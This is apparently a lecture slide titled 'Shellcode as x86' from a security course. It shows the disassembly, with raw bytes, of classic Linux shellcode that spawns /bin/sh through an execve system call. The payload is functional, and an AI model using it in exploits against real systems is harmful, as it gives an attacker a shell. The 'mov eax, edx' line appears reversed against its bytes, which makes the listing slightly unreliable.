

# Shellcode as x86

8048060: <_start>:
| 8048060: | 31 | c0 |  |  |  | xor | eax, eax |
| --- | --- | --- | --- | --- | --- | --- | --- |
| 8048062: | 50 |  |  |  |  | push | eax |
| 8048063: | 68 | 2f | 2f | 73 | 68 | push | 0x68732f2f |
| 8048068: | 68 | 2f | 62 | 69 | 6e | push | 0x6e69622f |
| 804806d: | 89 | e3 |  |  |  | mov | ebx, esp |
| 804806f: | 89 | c1 |  |  |  | mov | ecx, eax |
| 8048071: | 89 | c2 |  |  |  | mov | eax, edx |
| 8048073: | b0 | 0b |  |  |  | mov | al, 0x0b |
| 8048075: | cd | 80 |  |  |  | int | 0x80 |
| 8048077: | 31 | c0 |  |  |  | xor | eax, eax |
| 8048079: | 40 |  |  |  |  | inc | eax |
| 804807a: | cd | 80 |  |  |  | int | 0x80 |

APU - CBE : 22 February 2020